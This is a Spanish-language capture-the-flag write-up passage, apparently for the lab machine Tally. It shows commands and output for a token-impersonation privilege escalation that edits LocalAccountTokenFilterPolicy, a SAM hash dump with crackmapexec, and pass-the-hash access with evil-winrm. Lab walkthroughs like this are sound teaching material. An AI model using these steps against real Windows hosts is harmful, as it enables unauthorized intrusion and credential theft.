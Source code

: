 Lo podemos validar con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123!
```

Vemos que no tenemos un `Pwn3d!`, así que vamos a retocar un registro del sistema.

```bash
C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123! (Pwn3d!)
```

Ya tenemos un `Pwn3d!`, así que podriamos tratar de ver los hashes de los usuarios, en concreto del administrador:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!' --sam
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123! (Pwn3d!)
SMB         10.10.10.59     445    TALLY            [+] Dumping SAM hashes
SMB         10.10.10.59     445    TALLY            Administrator:500:aad3b435b51404eeaad3b435b51404ee:d904afc137554b20156f689f1b19c2b2:::
SMB         10.10.10.59     445    TALLY            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.59     445    TALLY            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
^CKeyboardInterrupt
2021-11-19T19:45:05Z
```

Y ahora podemos hacer ***pass the hash*** como el usuario **Administrator** y la herramienta `evil-winrm`:

```bash
❯ evil-winrm -u "Administrator" -H "d904afc137554b20156f689f1b19c2b2" -i 10.10.10.59

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
tally\administrator
```
